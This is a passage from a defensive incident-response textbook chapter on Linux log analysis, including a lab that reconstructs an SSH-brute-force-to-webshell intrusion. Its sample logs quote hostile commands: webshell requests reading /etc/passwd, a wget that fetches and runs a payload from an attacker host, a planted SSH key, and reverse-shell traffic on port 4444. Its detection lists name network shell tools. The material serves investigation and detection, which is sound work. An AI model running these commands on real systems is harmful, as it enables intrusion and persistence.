```

**Webshell interaction** — the highest-value find. After an upload, watch for repeated requests to an odd `.php`/`.jsp`/`.aspx` under an uploads/writable dir, often `POST`, small response sizes, from the same IP, sometimes with `cmd=` in the body/query:

```text
"POST /uploads/shell.php HTTP/1.1" 200 128 "-" "curl/8.5.0"
"GET /uploads/shell.php?cmd=id HTTP/1.1" 200 44 "-" "Mozilla/5.0"
"GET /uploads/shell.php?cmd=cat+/etc/passwd HTTP/1.1" 200 1503
```

```bash
# Find likely webshell URLs: PHP under an uploads/writable path, hit repeatedly
grep -E "POST|GET" /var/log/nginx/access.log | \
  grep -Ei '/(uploads|images|tmp|cache)/[^ ]+\.(php|phtml|jsp|aspx)' | \
  awk '{print $7}' | sort | uniq -c | sort -rn | head
```

**Reverse-proxy logs (HAProxy, Nginx as proxy, Traefik, cloud ALB).** When a proxy sits in front, the app server sees the *proxy* IP; the real client is in `X-Forwarded-For`. Configure the log format to capture it (`$http_x_forwarded_for` in Nginx) or you will misattribute every request to the load balancer. **Analyst tip:** always confirm whether you're reading the edge log (real client IP) or an origin log (proxy IP + XFF) before you conclude anything about "the attacker's IP."

### GoAccess — a web-log analyzer from scratch

**What it is:** GoAccess is a fast, terminal-and-HTML web-log analyzer. It parses Apache/Nginx logs and produces a live dashboard of top URLs, status codes, IPs, UAs, and more — ideal for triaging a suspected web compromise quickly.

**Install (Kali/Debian):** `sudo apt install goaccess`

```bash
# Interactive terminal dashboard, auto-detecting the combined format
goaccess /var/log/nginx/access.log -c

# Generate a shareable HTML report for an IR ticket
goaccess /var/log/nginx/access.log --log-format=COMBINED -o /tmp/report.html

# Real-time HTML dashboard (websocket), watch an active incident
goaccess /var/log/nginx/access.log --log-format=COMBINED -o /tmp/live.html --real-time-html
```

In the dashboard, jump to the "Requested Files", "Not Found URLs (404)", "Visitor Hostnames and IPs", and "User Agents" panels — a webshell or scanner usually stands out as an anomalous URL/IP/UA within seconds.

---

## Part 7: Climbing to the Network — Firewall, DNS, and DHCP Logs

Endpoint logs stop at the host boundary. To see lateral movement, C2, and exfil you need **network** telemetry. We start with the three most universally available network log sources.

### Firewall / packet-filter logs

Linux hosts filter with **netfilter**, driven by `iptables`/`nftables` (or `ufw`/`firewalld` front-ends). A `LOG` target writes dropped/accepted packets to the kernel facility, so they appear in `kern.log`/`journalctl -k`/`/var/log/messages`:

```text
Feb 18 08:59:02 fw01 kernel: [UFW BLOCK] IN=eth0 OUT= SRC=203.0.113.44 DST=10.0.0.10 PROTO=TCP SPT=51890 DPT=22 ...
Feb 18 09:05:31 fw01 kernel: [UFW BLOCK] IN=eth0 OUT= SRC=10.0.0.10 DST=203.0.113.44 PROTO=TCP SPT=44122 DPT=4444 ...
```

**How to read a netfilter LOG line:**

| Token | Meaning | Why it matters |
|---|---|---|
| `IN=` / `OUT=` | Ingress / egress interface | Direction of travel |
| `SRC=` / `DST=` | Source / destination IP | Who talked to whom |
| `PROTO=` | TCP/UDP/ICMP | Protocol |
| `SPT=` / `DPT=` | Source / destination port | `DPT=22` inbound = SSH attempt; `DPT=4444` **outbound** = classic reverse-shell/C2 port |
| `SYN`/flags | TCP flags | `SYN` without follow-up across many ports = port scan |

Enterprise firewalls (Palo Alto, Fortinet, Cisco ASA, pfSense) ship far richer logs (accept/deny, app-id, bytes, session duration) to the SIEM over syslog. The reasoning is identical: **denies** reveal scanning and blocked C2; **accepts to odd ports/destinations** reveal successful C2 and exfil; **long-duration, steady-byte sessions** reveal beaconing.



### DNS logs — the most under-used, highest-value source

Nearly every attack technique touches DNS: C2 domains, domain-generation algorithms (DGA), DNS tunnelling for exfil, and simply resolving the attacker's server. If you log DNS queries (via the resolver — BIND `querylog`, Unbound, dnsmasq, Windows DNS, or a Zeek `dns.log`), you get a near-complete map of "who tried to talk to what."

```text
# dnsmasq query log
Feb 18 09:06:00 dnsmasq[812]: query[A] cdn-update-7f3a.example-c2[.]com from 10.0.0.10
Feb 18 09:06:00 dnsmasq[812]: forwarded cdn-update-7f3a.example-c2[.]com to 8.8.8.8
```

**High-signal DNS patterns:**

- **DGA domains** — high-entropy, algorithmic names (`kq3v9zx1p2.com`) queried in bursts. Detect by scoring domain string entropy.
- **DNS tunnelling / exfil** — abnormally long labels, high volume of `TXT`/`NULL`/`A` queries to one parent domain, e.g. `<base32-encoded-chunk>.tunnel.attacker.com`. The tell is *many unique subdomains under one registered domain* and *unusual record types*.
- **Newly registered / rare domains** — enrichment against threat intel and passive DNS (Chapter 19's job) flags these.
- **DoH/DoT evasion** — if endpoints resolve via encrypted DNS to a third party, your resolver logs go blind; detecting DoH usage (known DoH IPs/SNI) is itself a control.

```bash
# From a Zeek dns.log: rank parent domains by count of UNIQUE subdomains
# (a tunnelling signature). zeek-cut extracts named columns.
zeek-cut query < dns.log | \
  awk -F. '{ if (NF>=2) print $(NF-1)"."$NF }' | sort | uniq -c | sort -rn | head
# A single parent with thousands of unique children = probable tunnelling/DGA.
```

### DHCP logs — the identity glue

DHCP leases (`/var/log/syslog` on the DHCP server, or a dedicated `dhcpd.leases`) map **IP ↔ MAC ↔ hostname ↔ time**. This is essential because IPs are reused: to say "10.0.0.10 was *that laptop* at 09:06," you need the lease that was active then.

```text
Feb 18 08:30:02 dhcp01 dhcpd: DHCPACK on 10.0.0.10 to 52:54:00:ab:cd:ef (LT-FINANCE-07) via eth0
```

**IR use case:** an alert fires on 10.0.0.10 at 09:06. The firewall says it beaconed to a C2 IP; DHCP says 10.0.0.10 was `LT-FINANCE-07` (MAC `52:54:00:ab:cd:ef`) from 08:30 onward; the switch's MAC table (or NAC) ties that MAC to a physical port/user. Now the abstract IP is a **specific device and person** — that pivot is only possible because DHCP was logged.

---

## Part 8: Flow Records and Full Packet Capture

DNS/firewall logs are events; the two sources below give you the *shape* and the *content* of the traffic.

### NetFlow / IPFIX / sFlow — connection metadata at scale

**What flow data is:** routers/firewalls export a record *per connection* (5-tuple: src IP, dst IP, src port, dst port, protocol) with byte/packet counts, start/end times, and TCP flags — but **no payload**. It's cheap to store, so it's often retained for months when full PCAP is retained for hours. NetFlow (Cisco), IPFIX (the IETF standard), and sFlow (sampled) are the common formats; open collectors include `nfdump`/`nfcapd`, `SiLK`, and Elastiflow.

Why flow is a defender's workhorse:

- **Beaconing** — regular, similar-sized connections to one external IP at a fixed interval jump out of flow data even when payloads are encrypted (you can't read TLS, but you can see the *rhythm*).
- **Exfil** — a large outbound byte total to an unusual destination.
- **Lateral movement** — internal host-to-host connections on admin ports (SMB 445, RDP 3389, WinRM 5985, SSH 22) that don't fit the baseline.
- **Scanning** — one source touching many destinations/ports with tiny flows.

```bash
# nfdump: top talkers by bytes to external destinations in a window
nfdump -R /var/cache/nfdump -t 2027/02/18.08:00:00-2027/02/18.10:00:00 \
  -s dstip/bytes -n 10 -o extended
# Candidate exfil destinations bubble to the top.

# Find periodic beacons: connections to one dst repeated at steady intervals
nfdump -R /var/cache/nfdump 'dst ip 203.0.113.44' -o "fmt:%ts %sa -> %da:%dp %byt"
# Even byte counts at a fixed cadence = automated beacon, not a human.
```

### Full packet capture (PCAP) and `tshark`/Wireshark

**What PCAP is:** the complete bytes on the wire, captured by `tcpdump`, Wireshark's `dumpcap`, or a network TAP/SPAN, stored as `.pcap`/`.pcapng`. It is the ground truth — but expensive, so it's usually retained briefly or captured on-demand during an incident.

**`tcpdump` from scratch** (capture side):

```bash
# Capture on eth0, no name resolution (-n), write to file (-w), snaplen full
sudo tcpdump -i eth0 -n -w /tmp/incident.pcap host 10.0.0.10
#   -i interface, -n no DNS, -w write raw pcap, filter = BPF expression
```

**`tshark` from scratch** (analysis side — Wireshark's CLI, ideal on a headless server):

**What it is:** `tshark` is the command-line Wireshark. It applies the same dissectors and display filters but runs in a terminal and pipes cleanly, so it's the right tool for triaging a `.pcap` on a server or scripting extraction.

**Install:** `sudo apt install tshark` (Kali has it; add your user to the `wireshark` group for non-root capture).

```bash
# Read a capture and list HTTP requests (method, host, uri) — hunt webshell C2 / downloads
tshark -r /tmp/incident.pcap -Y http.request \
  -T fields -e ip.src -e http.request.method -e http.host -e http.request.uri

# Pull every DNS query name (tunnelling / C2 domains)
tshark -r /tmp/incident.pcap -Y dns.flags.response==0 -T fields -e dns.qry.name | sort | uniq -c | sort -rn

# TLS SNI — what encrypted destinations were contacted (JA3-adjacent triage)
tshark -r /tmp/incident.pcap -Y "tls.handshake.type==1" -T fields -e ip.dst -e tls.handshake.extensions_server_name

# Follow a suspicious TCP stream to read the reverse-shell commands in cleartext
tshark -r /tmp/incident.pcap -q -z follow,tcp,ascii,42
```

Key `tshark` flags:

| Flag | Meaning |
|---|---|
| `-r FILE` | Read a capture file |
| `-Y "DISPLAY FILTER"` | Wireshark display filter (`http.request`, `dns`, `tls.handshake`) |
| `-T fields -e FIELD` | Output specific fields (scriptable) |
| `-z ...` | Statistics/“tap” (e.g. `follow,tcp,ascii,N`, `io,phs` protocol hierarchy) |
| `-q` | Quiet (suppress packet lines when using `-z`) |
| `-c N` | Stop after N packets |

**Zeek as the middle ground.** Chapter 10 covers Zeek in full, but note here: Zeek turns raw packets into **structured protocol logs** (`conn.log`, `dns.log`, `http.log`, `ssl.log`, `files.log`) that are far easier to search than PCAP and far richer than flow. `zeek-cut` (used above) extracts named columns from those logs. For log-analysis purposes, Zeek is often the sweet spot: PCAP-derived fidelity with log-like searchability.



---

## Part 9: Hands-On Lab — Reading an SSH-Brute-to-Webshell Intrusion From the Logs

This lab reconstructs a full intrusion using only logs — no attacker cooperation. It mirrors what you'd do on a real compromised Linux web server. Do this in your own lab (two VMs: a "victim" web server and an "attacker" Kali box), or against public sample logs.

**Scenario.** An external IP brute-forces SSH on a public web server, fails, then pivots: it finds a vulnerable upload form, drops a PHP webshell, uses it to run commands, downloads a payload, and installs an SSH key for persistence. Your job: reconstruct the timeline and answer the standard IR questions — *initial access, actions on objective, persistence, scope*.

### Step 1 — Establish the auth picture

```bash
# Rank the noisiest source IPs by failed SSH auth
sudo grep "Failed password" /var/log/auth.log* | \
  grep -oE 'from [0-9.]+' | awk '{print $2}' | sort | uniq -c | sort -rn | head
#   842 198.51.100.23      <-- heavy brute force
#    77 203.0.113.44
```

```bash
# Did the top brute-forcer ever succeed via SSH?
sudo grep "198.51.100.23" /var/log/auth.log* | grep "Accepted"
#   (no output) --> SSH brute force FAILED. Initial access came another way.
```

**Interpretation:** SSH was hammered but not breached. That redirects us to the web tier — a classic pivot when SSH is hardened but the app isn't.

### Step 2 — Find the web foothold

```bash
# Look for uploads followed by repeated hits to a script under a writable dir
grep -Ei '/(uploads|tmp|images)/[^ ]+\.php' /var/log/nginx/access.log* | \
  awk '{print $1, $6, $7, $9}' | sort | uniq -c | sort -rn | head
#   14 203.0.113.44 "POST /uploads/shell.php 200
#    9 203.0.113.44 "GET  /uploads/shell.php?cmd=... 200
```

```bash
# Pull the full request lines for that shell to read the commands
grep "/uploads/shell.php" /var/log/nginx/access.log* | grep "203.0.113.44"
#   ... "GET /uploads/shell.php?cmd=id HTTP/1.1" 200 44
#   ... "GET /uploads/shell.php?cmd=uname+-a HTTP/1.1" 200 122
#   ... "GET /uploads/shell.php?cmd=wget+http://203.0.113.44/x.sh+-O+/tmp/x.sh HTTP/1.1" 200 0
#   ... "GET /uploads/shell.php?cmd=cat+/etc/passwd HTTP/1.1" 200 1503
```

**Interpretation:** initial access = **arbitrary file upload → PHP webshell** from `203.0.113.44`. The attacker ran `id`, `uname -a`, downloaded `x.sh`, and read `/etc/passwd`. All as the web user.

### Step 3 — Confirm and enrich with `auditd`

If the host runs the Part 5 rule set, corroborate the webshell's OS-level actions:

```bash
# Everything the web user (uid 33 = www-data) executed in the window
sudo ausearch -k exec_root --start 08:45 --end 09:30 -i | \
  grep -E "www-data|execve" | grep -Ei "wget|curl|chmod|bash|sh -c"
# type=EXECVE ... a0="/bin/bash" a1="-c" a2="wget http://203.0.113.44/x.sh -O /tmp/x.sh"
# type=EXECVE ... a0="chmod" a1="+x" a2="/tmp/x.sh"
# type=EXECVE ... a0="/tmp/x.sh"
```

```bash
# Did anything write to an authorized_keys file? (persistence)
sudo ausearch -k ssh_keys -i | grep -E "authorized_keys|home"
# type=PATH name="/home/deploy/.ssh/authorized_keys" ... nametype=CREATE
```

**Interpretation:** the payload `x.sh` ran, and a key was written into `deploy`'s `authorized_keys` — **persistence via SSH key**. `auditd` gives us the `auid` and exact commands the text logs lacked.

### Step 4 — Prove the persistence and check for successful re-entry

```bash
# Read the planted key and note its comment/fingerprint
sudo cat /home/deploy/.ssh/authorized_keys
#   ssh-ed25519 AAAA... attacker@evil

# Did the attacker later log in USING that key?
sudo grep "Accepted publickey for deploy" /var/log/auth.log* | grep "203.0.113.44"
#   Feb 18 09:41:07 web01 sshd[5120]: Accepted publickey for deploy from 203.0.113.44 port 55010 ssh2: ED25519 SHA256:...
```

**Interpretation:** persistence worked — the attacker returned via SSH using the planted key from the same IP. This upgrades the incident from "webshell" to "established foothold with valid credentials."

### Step 5 — Network corroboration

```bash
# Firewall: outbound to the attacker's payload/C2 host
sudo journalctl -k | grep "203.0.113.44" | grep "OUT"
# ... OUT=eth0 SRC=10.0.0.10 DST=203.0.113.44 DPT=80  (the wget)
# ... OUT=eth0 SRC=10.0.0.10 DST=203.0.113.44 DPT=4444 (a reverse shell attempt)

# DNS: did the host resolve any attacker infrastructure?
zeek-cut query id.orig_h < dns.log | grep "10.0.0.10" | grep -i "example-c2"
```

### Step 6 — Build the timeline and answer the IR questions

| Time | Source | Event | Evidence |
|---|---|---|---|
| 08:40–08:52 | `auth.log`/`btmp` | SSH brute force (failed) | 842 `Failed password` from `198.51.100.23` |
| 08:52 | `nginx access.log` | Webshell uploaded (`POST shell.php 200`) | Access log |
| 08:53–09:05 | access + `auditd` | `id`, `uname`, `wget x.sh`, `cat /etc/passwd` | `cmd=` params + `EXECVE` |
| 09:06 | firewall / DNS | Outbound to `203.0.113.44` (payload + `:4444`) | netfilter LOG, Zeek `dns.log` |
| 09:10 | `auditd` | Key written to `deploy/.ssh/authorized_keys` | `ausearch -k ssh_keys` |
| 09:41 | `auth.log` | Attacker returns via planted key | `Accepted publickey ... from 203.0.113.44` |

**Answers.** *Initial access:* file-upload → PHP webshell (not SSH — the brute force was a decoy/parallel effort). *Actions on objective:* recon + `/etc/passwd` read + payload download. *Persistence:* SSH `authorized_keys` on `deploy`. *Scope:* one host confirmed; the returning SSH session means you must now check what `deploy` reached from here (lateral movement) using flow/firewall data. *Containment:* block both IPs at the edge, remove the key, kill sessions, rotate `deploy` credentials, and preserve `/var/log`, the journal, and `audit.log` before rebuilding.

This is the whole point of the chapter: **five independent log sources, cross-checked, reconstruct an intrusion no single source fully captured.**

---

## Part 10: Detection & Defense Angle (Consolidated)

Everything above is source knowledge; this section turns it into standing detections and defensive posture. In a real SOC these become SIEM rules (Splunk SPL / Sentinel KQL / Elastic detection rules) fed by the sources in Parts 2–8.

### Authentication detections

| Detection | Logic | Source |
|---|---|---|
| SSH brute force | ≥ N `Failed password` from one src IP in T minutes | `auth.log`/`secure`, journal |
| Brute-force **success** | Same src IP with many failures **then** an `Accepted` | `auth.log` |
| Password login where keys are policy | `Accepted password` on a key-only host | `auth.log` |
| Root login from external IP | `Accepted * for root from <public IP>` | `auth.log` |
| Service account interactive login | `www-data`/`nginx` with a shell or `sudo` | `auth.log` + `auditd` |
| Impossible travel | Same user, two distant source geos in a short window | `auth.log` + GeoIP enrichment |

### Execution & persistence detections (`auditd`)

- **Web user spawning a shell:** `execve` where `uid` ∈ {www-data, nginx, apache} and `comm` ∈ {bash, sh, python, perl, nc} → almost always webshell/RCE.
- **Payload staging:** `execve` of `wget`/`curl` writing to `/tmp`, `/dev/shm`, `/var/tmp` → download-cradle.
- **Persistence writes:** `-k ssh_keys` (authorized_keys), `-k cron`, `-k systemd_persist`, `-k pam_change` firing outside change windows.
- **Defense evasion:** `auditctl -D`, `systemctl stop auditd`, journal vacuum, `history -c`, editing `/etc/rsyslog*`.

### Network detections

- **Beaconing:** flow/Zeek `conn.log` connections to one external IP at regular intervals with low, uniform byte counts.
- **DNS tunnelling/DGA:** high count of unique subdomains under one parent, high-entropy names, unusual record types (`TXT`/`NULL`).
- **Exfil:** large outbound byte totals to rare destinations; off-hours transfers.
- **Odd egress ports:** outbound accepts to `4444`, `1337`, high non-standard ports; unexpected `:445`/`:3389`/`:5985` internally = lateral movement.

### Defensive hardening that improves the telemetry itself

1. **Centralise logs off-host.** Ship `auth.log`, syslog, journal, `auditd`, web, DNS, and firewall to the SIEM in real time. An attacker who wipes local logs can't retract what already left the box. This is the single most important control — logs on a compromised host are untrusted.
2. **Deploy `auditd` with an immutable (`-e 2`) rule set** covering identity files, persistence paths, and privileged `execve`. Without it, Linux endpoints are nearly blind to execution.
3. **Make the journal persistent and sealed (FSS).** `journalctl --verify` then becomes a tamper test.
4. **Log DNS at the resolver** and NetFlow at the edge — the two highest-ROI network sources.
5. **Time sync (NTP/chrony) everywhere.** Cross-source correlation (Part 9) only works if timestamps agree; skew turns a clean timeline into noise.
6. **Harden the auth surface** so the logs stay quiet for the right reasons: key-only SSH, `fail2ban`/`crowdsec` on brute force, MFA on jump boxes, least privilege in `sudoers`.
7. **Alert on logging gaps.** A host that suddenly stops sending `auditd`/syslog is either down or being tampered with — both warrant a look. Absence of expected telemetry is a detection.



---

## Part 11: Common Pitfalls

- **Reading only `auth.log` (not the rotations).** The incident is often in `auth.log.2.gz`. Always `zgrep` the whole set.
- **Trusting local logs on a compromised host.** If the box is owned, its logs may be edited. Corroborate with off-host copies (SIEM), the journal seal, and network sources.
- **Confusing proxy IP with client IP.** Behind a load balancer/CDN, the access log shows the proxy; the real client is in `X-Forwarded-For`. Misreading this blames the wrong IP.
- **Ignoring `auid`.** In `auditd`, `auid` survives `su`/`sudo` and attributes actions to the original human even when they run as `www-data` or root. Analysts who only look at `uid` miss attribution.
- **Double-counting PAM + app failures.** One failed SSH login can appear as both an `sshd` line and a `pam_unix` line — don't inflate brute-force counts by counting both.
- **Assuming the journal is persistent.** If `/var/log/journal/` doesn't exist, a reboot erased it. Check first.
- **Forgetting time zones/skew.** `auth.log` may be local time, the journal UTC, the firewall another zone. Normalise before building a timeline.
- **Chasing a single source.** No one source tells the whole story on Linux. The method is *correlation* across host + network, as in Part 9.
- **Over-auditing.** An `auditd` rule that logs *every* syscall drowns the host and the SIEM. Audit what attackers touch, not everything.

---

## Part 12: Final Revision / Summary

- Modern Linux runs **two logging systems**: the syslog family (plain-text `/var/log/*`, classified by facility/severity) and **`systemd-journald`** (binary, indexed, queried with `journalctl`). Both often hold the same events; know which is authoritative.
- The **auth trail** — `auth.log`/`secure`, `sshd`, `sudo`, `su`, PAM — is where most intrusions first show. Master the `sshd` line vocabulary (`Accepted`/`Failed`/`invalid user`/`preauth`) and the **brute-force-to-success** pattern.
- The **binary accounting files** (`wtmp`/`btmp`/`lastlog`, read by `last`/`lastb`/`lastlog`) are a cross-check and a common anti-forensics target.
- **`auditd`** is Linux's execution/file-access telemetry — the closest thing to Sysmon. A good, **immutable** rule set plus `ausearch`/`aureport` gives you `auid`-attributed command lines and persistence-file writes that text logs miss.
- **Web/proxy logs** (combined format) reveal scanning, injection, traversal, and **webshells**; GoAccess triages them fast. Watch for proxy-vs-client IP confusion.
- The **network sources** — firewall (netfilter/appliance), **DNS** (tunnelling/DGA/C2 resolution), DHCP (IP↔device identity), **NetFlow/IPFIX** (beaconing/exfil at scale), and **PCAP/Zeek** (`tshark`, `zeek-cut`) — reveal C2, lateral movement, and exfil that endpoint logs can't see.
- Real investigations **correlate** many sources into one timeline (Part 9). No single log is complete.
- The defensive priorities: **centralise logs off-host**, deploy immutable `auditd`, persist/seal the journal, log DNS and flow, sync time, and **alert on logging gaps**.

If you can pull an auth timeline, corroborate it with `auditd`, and tie it to firewall/DNS/flow evidence, you can investigate a Linux intrusion end to end — the same competence Chapter 7 gave you for Windows, now for the other half of the enterprise.

---

## Part 13: Cheat Sheet / Quick Reference

**Where things live (Debian ↔ RHEL):**

```text
auth.log ↔ secure          syslog ↔ messages        apache2/ ↔ httpd/
audit: /var/log/audit/audit.log   journal: /var/log/journal/
last→wtmp   lastb→btmp   lastlog→lastlog
```

**journalctl:**

```bash
journalctl -u ssh -b            # unit, this boot
journalctl --since "-1h" -p err # last hour, errors+
journalctl -k                   # kernel (netfilter, OOM)
journalctl _COMM=sudo -o verbose
journalctl -g "Failed password" # grep
journalctl --verify             # FSS tamper check
journalctl --list-boots         # reboots
```

**Auth hunting:**

```bash
grep "Failed password" auth.log | grep -oE 'from [0-9.]+' | awk '{print $2}' | sort | uniq -c | sort -rn
grep "Accepted" auth.log        # successful logins
sudo lastb -a | head            # failed logins (btmp)
grep "sudo:" auth.log | grep -v "pam_unix"   # sudo command usage
```

**auditd:**

```bash
auditctl -l                     # list active rules
ausearch -k KEY -i              # by rule key, interpreted
ausearch -ua 1001 -i            # by login uid (full session)
ausearch -x /usr/bin/wget -i    # by executable
aureport -au                    # auth summary
aureport -x --summary           # executables ranked
```

**Web logs:**

```bash
awk '$9==404{print $1}' access.log | sort | uniq -c | sort -rn   # scanners
grep -Ei '/(uploads|tmp)/[^ ]+\.php' access.log                  # webshell hunt
goaccess access.log --log-format=COMBINED -o report.html
```

**Network:**

```bash
journalctl -k | grep BLOCK                      # firewall drops
zeek-cut query < dns.log | ...                  # DNS hunting
nfdump -R dir -s dstip/bytes -n 10              # top talkers (exfil)
tshark -r cap.pcap -Y http.request -T fields -e http.host -e http.request.uri
tshark -r cap.pcap -q -z follow,tcp,ascii,N     # read a stream
tcpdump -i eth0 -n -w out.pcap host X.X.X.X     # capture
```

**Netfilter LOG line decoder:** `SRC/DST` = who, `SPT/DPT` = ports (`DPT=22` in = SSH try; `DPT=4444` out = C2), `IN/OUT` = direction.

**auditd fields:** `auid` = original login user (attribution!), `uid/euid` = runtime identity, `syscall=59` = execve, `key=` = your rule tag.

---

## Part 14: Practice Labs & Resources

Train these exact skills on hands-on material:

- **TryHackMe — "Linux Server Forensics", "Investigating Windows"** (contrast), **"Splunk" series**, and **"Boogeyman"** IR rooms: reconstruct intrusions from logs end to end.
- **TryHackMe — "Zeek" / "Zeek Exercises"** and **"NetworkMiner"**: turn PCAP into structured logs and hunt.
- **Blue Team Labs Online (BTLO)** — "Log Analysis" and "Network Analysis" investigations: `auth.log`, web logs, and PCAP challenges scored like real tickets.
- **CyberDefenders.org** — "PCAP" and "Endpoint" labs (e.g. "WebStrike", "Hunter", "Insider"): download real evidence, answer IR questions.
- **Malware-Traffic-Analysis.net** — free PCAP + exercises; practise `tshark`/Zeek on genuine malicious captures (lab-scoped, defensive).
- **Security Onion** — build it in a VM, replay a sample PCAP (`so-import-pcap`), and analyse the resulting Zeek/Suricata logs (bridges directly into Chapter 10).
- **AIT Log Dataset / EVTX-ATTACK-SAMPLES / the "Boss of the SOC" (BOTS) datasets** — large realistic log corpora for `auditd`/syslog/web-log hunting.

**Practice questions to test yourself:**

1. On a key-only SSH host you see `Accepted password for root from 198.51.100.23`. Name three things wrong with this single line and what each implies.
2. An `auditd` `EXECVE` shows `uid=33 auid=1001 comm="bash"` running `wget`. Who is ultimately responsible, and which field proves it despite the process running as www-data?
3. Given a Zeek `dns.log`, write the one-liner that surfaces likely DNS tunnelling. What signal are you counting and why?
4. A web `access.log` shows 900 requests from one IP, 96% returning 404, UA `feroxbuster`. Classify the activity and state the next log you'd pivot to.
5. You suspect an attacker wiped `/var/log/wtmp`. Describe two independent ways to detect the gap without trusting that file.

Work each answer as if writing an IR ticket — claim, evidence (the exact log line/command), and the pivot you'd make next. That habit — assertion tied to a specific artifact — is the core discipline this chapter builds, and it carries straight into Chapter 9's email-and-phishing analysis and Chapter 10's network security monitoring.
